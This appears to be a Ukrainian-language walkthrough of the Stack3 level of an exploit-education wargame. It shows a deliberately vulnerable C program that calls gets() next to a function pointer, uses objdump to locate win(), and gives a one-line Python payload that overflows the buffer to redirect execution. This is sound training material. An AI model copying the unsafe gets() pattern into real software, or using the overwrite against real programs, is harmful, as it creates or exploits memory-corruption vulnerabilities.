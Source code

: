 # STACK3

Цей рівень розглядає змінні середовища, як їх можна встановити, а також перезаписувати покажчики функцій, що зберігаються в стеку.

Вихідний код для Stack3:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
Спочатку нам потрібно з'ясувати, яка адреса функції win знаходиться в пам'яті, на щастя, objdump покаже це досить чітко.

objdump -x stack3 | grep win

![image](https://user-images.githubusercontent.com/47494881/147484203-9ef6796c-8144-4645-8e0d-77d8dce6d99e.png)

Тепер необхідно переписати зміну fp для цього зновштаки нам знадоюиться 64 байти сміття (64 'а'), а потім адрес функції win
```
(python -c "print 'a'*64 + '\x24\x84\x04\x08'";) | ./stack3
```
Результати:

![image](https://user-images.githubusercontent.com/47494881/147484764-08acca82-e1ed-44f2-90da-4c7b4172f9f7.png)

